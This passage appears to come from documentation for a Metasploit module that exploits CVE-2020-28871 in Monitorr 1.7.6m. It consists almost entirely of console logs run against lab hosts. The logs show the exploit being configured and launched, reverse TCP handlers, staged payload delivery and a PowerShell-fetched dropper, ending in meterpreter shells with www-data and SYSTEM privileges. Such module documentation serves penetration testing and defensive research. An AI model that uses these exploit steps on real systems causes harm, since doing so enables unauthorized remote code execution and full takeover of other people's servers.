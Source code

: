 ```
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.34
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

### Monitorr 1.7.6m on Windows Data Center 2019 - Powershell Meterpreter session
```
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set rhosts 192.168.201.36
rhosts => 192.168.201.36
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > check
[+] 192.168.201.36:80 - The target is vulnerable. Monitorr version: 1.7.6m
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 3
target => 3
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Windows Command for cmd/windows/powershell/meterpreter/reverse_tcp
[*] Sending stage (175686 bytes) to 192.168.201.36
[+] Deleted dkvszuqil.php
[*] Meterpreter session 4 opened (192.168.201.10:4444 -> 192.168.201.36:54805) at 2023-03-13 16:18:53 +0000

meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Monitorr 1.7.6m on Windows Data Center 2019 - Windows Dropper Meterpreter session
```
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 4
target => 4
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Windows EXE Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/EEFxVaRHZLJZNrF
[*] Client 192.168.201.36 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /EEFxVaRHZLJZNrF
[*] Sending payload to 192.168.201.36 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
```